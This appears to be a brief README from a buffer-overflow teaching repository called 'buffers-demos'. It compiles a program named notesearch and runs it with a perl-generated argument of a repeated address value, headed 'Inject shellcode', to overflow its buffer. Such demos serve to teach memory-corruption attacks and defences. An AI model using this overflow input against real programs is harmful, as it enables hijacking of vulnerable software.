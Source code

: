 # buffers-demos


Inject shellcode:
```c
gcc -g -o notesearch notesearch.c 

./notesearch $(perl -e 'print "\xb4\xcd\xed\x30"*20')
```